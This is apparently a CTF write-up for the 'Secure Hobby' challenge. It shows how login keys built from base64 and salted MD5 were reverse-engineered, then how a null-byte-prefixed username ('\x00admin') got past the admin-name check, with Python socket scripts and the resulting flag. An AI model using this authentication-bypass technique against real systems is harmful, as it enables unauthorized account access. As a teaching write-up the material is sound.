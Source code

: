 ### Solved by barrebas

For Secure Hobby, a 250 point challenge, we where given a file and a place to connect to. The archive contained a binary, which looked okay enough to run. It opened a port on localhost. Upon connecting using ```nc```, the program first crashes because it can't find ```flag``` and ```namak```. After creating those files and connecting again, we are presented with the following:

```bash
$ nc localhost 35565
-------------------------------------------------
| 	Welcome to Super Secure Auth Engine	|
-------------------------------------------------

1) Register
2) Login check
3) Show my secret

Enjoy ;)
1
Enter username: test
Your key for login is: 6447567a64413d3d098f6bcd4621d373cade4e832627b4f6
```

Hmm. The second function verifies a login and the third displays a secret. Trying to register the user 'admin' resulted in an error. Still, it's fair to assume we need to get the secret of the admin user. Let's break this key down.

```bash
$ echo -ne 'test' |md5sum
098f6bcd4621d373cade4e832627b4f6  -
```

This looks like the last part of the login. What about the start? It seems to end with \x3d, or ASCII ```=```. Screams base64!

```bash
$ xxd -p -r
6447567a64413d3d
dGVzdA==
$ echo -ne 'dGVzdA==' |base64 -d
test
```

So putting it all together again:


```bash
$ echo -ne 'admin' |base64
YWRtaW4=
$ echo -ne 'admin' |md5sum
21232f297a57a5a743894a0e4a801fc3  -
xxd -p
YWRtaW4=
595752746157343d0a
```

Looks like ```595752746157343d21232f297a57a5a743894a0e4a801fc3``` is the login we need!

Alas, this doesn’t work. On the remote box, registering ```test``` returns:


```bash
$ nc asis-ctf.ir 12439
-------------------------------------------------
| 	Welcome to Super Secure Auth Engine	|
-------------------------------------------------

1) Register
2) Login check
3) Show my secret

Enjoy ;)
1
Enter username: test
Your key for login is: 6447567a64413d3dd0211e3e26985465726312d056f9339f
```

It has to do with the ```namak``` file. Namak is Persian for salt.

```bash
$ echo ‘0’ > namak
```

Now, registering test on the localhost server returns ```Your key for login is: 6447567a64413d3d1c13f2701648e0b0d46d8a2a5a131a53```.

Furthermore, it looks like the salt is prepended to before hashing. We grabbed md5(salt) using a small Python script:


```python
#!/usr/bin/python

from socket import *
import time, re, struct

s = socket(AF_INET, SOCK_STREAM)
#s.connect(('localhost', 35565))
s.connect(('asis-ctf.ir', 12439))

print s.recv(256)

s.send('1\n')
print s.recv(256)

s.send('\n')

print s.recv(200)
print s.recv(200)
```

The output showed:

```bash
Enter username:
Your key for login is:
5624717e9a5fd673f17f5678c6303ffe
```

So the md5 of the salt would be ```5624717e9a5fd673f17f5678c6303ffe```. I enlisted the help of NullMode to crack this hash, but to no avail.

Instead of cracking this hash (seems inpossible), we decided to focus on the string comparison. We cannot register a username containing ```admin```, but perhaps we can circumvent this checking system somehow. First, I tried:


```
admin                                              #
```

But this led to the same error message. Apparently, the username is not truncated. Instead, we assumed the check-string-for-admin uses normal string routines. These stop when they encounter a null-byte. Hash-functions on the other hand, do not. Let's register a user ```\x00admin``` using Python:


```python
#!/usr/bin/python

from socket import *
import time, re, struct

s = socket(AF_INET, SOCK_STREAM)
#s.connect(('localhost', 35565))
s.connect(('asis-ctf.ir', 12439))

print s.recv(256)

s.send('1\n')
print s.recv(256)

s.send('\x00admin\n')

print s.recv(200)
print s.recv(200)
```

This little gem returned ```4147466b62576c7503812bbd45e23c059a0eab18e936b7ed```. Let's try it out!


```bash
$ nc asis-ctf.ir 12439
-------------------------------------------------
| 	Welcome to Super Secure Auth Engine	|
-------------------------------------------------

1) Register
2) Login check
3) Show my secret

Enjoy ;)
2
Enter key: 4147466b62576c7503812bbd45e23c059a0eab18e936b7ed
OK
User admin authenticated
```

Holy crap, it worked! Let's grab that secret! Fingers crossed:


```bash
$ nc asis-ctf.ir 12439
-------------------------------------------------
| 	Welcome to Super Secure Auth Engine	|
-------------------------------------------------

1) Register
2) Login check
3) Show my secret

Enjoy ;)
3
Enter key: 4147466b62576c7503812bbd45e23c059a0eab18e936b7ed
The flag is: ASIS_65cc76f02093977bfd7629086e813666
```

BOOM! We just landed another flag :) This one was actually fun to solve!
